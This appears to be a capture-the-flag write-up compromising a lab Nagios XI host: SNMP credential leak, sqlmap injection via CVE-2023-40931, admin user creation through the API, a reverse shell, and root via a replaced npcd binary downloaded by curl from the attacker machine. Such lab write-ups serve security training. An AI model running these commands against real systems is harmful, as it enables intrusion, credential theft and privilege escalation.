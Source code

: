 ```yaml
---
title: "Nagios Exploit leads to PWN"
date: 2024-04-25
---
```



##  Initial Scans
Ip = `10.10.11.248`

### Ports and Services
#### Open Ports
```
Open 10.10.11.248:22
Open 10.10.11.248:80
Open 10.10.11.248:389
Open 10.10.11.248:443
Open 10.10.11.248:5667
```

#### Service Enumeration
```
80/tcp   open  http       syn-ack Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       syn-ack OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   syn-ack Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth

```

#### Nuclei
Interesting finds
```shell
[open-redirect-generic] [http] [medium] http://nagios.monitored.htb/////evil.com [redirect="////evil.com"]
[CVE-2018-11784] [http] [medium] http://nagios.monitored.htb//interact.sh
```

Trying this?
https://github.com/ruthvikvegunta/nagiosxi_rce-to-root

Didn't work so lets try somehin else

First lets try another rustscan an


Snmpwalk
```
snmpwalk -v2c -c public nagios.monitored.htb
```
This gives me a lot of detail and is overloading. Lets use `grep`

```
snmpwalk -v2c -c public nagios.monitored.htb | grep Strings
```
##### Results
```
Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64"
iso.3.6.1.2.1.1.4.0 = STRING: "Me <root@monitored.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "monitored"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.3.11 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.2.2.1.2.1 = STRING: "lo"
iso.3.6.1.2.1.2.2.1.2.2 = STRING: "VMware VMXNET3 Ethernet Controller"

"postgres"

"mariadb"

"php"

"sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"

"-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"

"-c /usr/bin/php -q /usr/local/nagiosxi/cron/cmdsubsys.php >> /usr/local/nagiosxi/var/cmdsubsys.log 2>&1"
```

When we try to login we get `The specified user account has been disabled or does not exist.`
# SQLMap

Let's enumerate!
```
sqlmap -u "https://nagios.monitored.htb/"
```

Oh `[CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1').` Right...

I googled for about an hour an really only found this to be useful [Nagios XI Vulnerability: CVE-2023–40931 — SQL Injection in Banner](https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567)
In this article we found that we could use the `POST /nagiosxi/admin/banner_message-ajaxhelper.php`
as our way to sqlmap nagios. We can now use the credentials we have found to get a token
```shell
curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500'
```
Token: `4af6ee9379971aa1cb7bbf0f5bbc931571ad6a4b`

Now lets retry SQLMap

```shell
sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=4af6ee9379971aa1cb7bbf0f5bbc931571ad6a4b" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
```
From this we find a token and two password hashes.


Using the admin token we can create a new user with admin privileges
```shell
curl -XPOST --insecure "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=testuser&password=testuser&name=testuser&email=testuser@localhost&auth_level=admin"
```

It asks us to changes password, we do so. And we are in!

![[Assets/Pasted image 20240425172659.png]]

# Reverse Shell
using nagios admin priveleges we create a new service and add a custom command.

```
nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.248] 54244
bash: cannot set terminal process group (12715): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ ls
ls
cookie.txt
user.txt
nagios@monitored:~$ cat user.txt
cat user.txt
00e6ec0baf23d4e12f08b43309b8d692
nagios@monitored:~$ 
```

# Priv Esc

The classic `sudo -l`
```
sudo -l
```

We see some interesting stuff mainly 
```
/usr/local/nagiosxi/scripts/manage_services.sh
/usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php

```

```
cat /usr/local/nagiosxi/scripts/manage_services.sh
```

```
cd /usr/local/nagios/bin/

rm npcd
```


```
curl -O http://10.10.14.2:8000/npcd
```

```
chmod +x /usr/local/nagios/bin/npcd
```

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```

```
fb032368ebeba0e8369df5131f2fbf74
```
